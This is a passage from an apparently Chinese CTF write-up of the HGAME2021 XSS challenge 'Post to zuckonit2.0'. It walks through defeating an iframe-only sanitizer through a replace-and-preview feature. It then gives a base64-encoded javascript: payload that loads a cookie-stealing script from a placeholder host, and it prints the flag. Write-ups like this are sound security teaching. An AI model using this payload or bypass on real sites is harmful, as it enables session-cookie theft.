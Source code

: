 发送session即可得到flag

![image-20210215130722662](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210215130724.png)



### Post to zuckonit2.0

考点：XSS

网站是一个创建笔记的站点，存在XSS漏洞

![image-20210216130624020](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210216130625.png)

在`/static/www.zip`给了源码：[source.zip](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/HGAME2021/%5BHGAME2021%5DPost_to_zuckonit2.0.zip)

和week2的XSS比起来多一个功能，可以替换批量字符串，并且在`/preview`查看替换的结果

审计源码，在添加留言的存在一个waf：

![image-20210216125152416](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210216125153.png)

跟进函数：

```python
def escape_index(original):
    content = original
    content_iframe = re.sub(r"^(<?/?iframe)\s+.*?(src=[\"'][a-zA-Z/]{1,8}[\"']).*?(>?)$", r"\1 \2 \3", content)#只留src属性
    if content_iframe != content or re.match(r"^(<?/?iframe)\s+(src=[\"'][a-zA-Z/]{1,8}[\"'])$", content):
        return content_iframe
    else:
        content = re.sub(r"<*/?(.*?)>?", r"\1", content)
        return content
```

可以看到只允许我们添加类似于`<iframe scr="xxx">`的标签，并且`xxx`限制在1-8位，显然没办法直接执行JS。

不过我们可以添加`<iframe scr="/preview ">`来使得index能直接看到`/preview`页面：

![image-20210216124754639](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210216124755.png)

再通过字符串替换功能，把`xxx`换成`javascript:xxxxx`，形成`<iframe src='javascript:alter(1)'>`即可XSS

payload：

```js
javascript:document.write(atob('PHNjcmlwdCBzcmM9Imh0dHA6Ly9pcC9teWpzL2Nvb2tpZS5qcyI+PC9zY3JpcHQ+'));
```

小手一抖，cookie到手：

![image-20210216124651414](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210216124700.png)

hgame{simple_csp_bypass&a_small_mistake_on_the_replace_function}
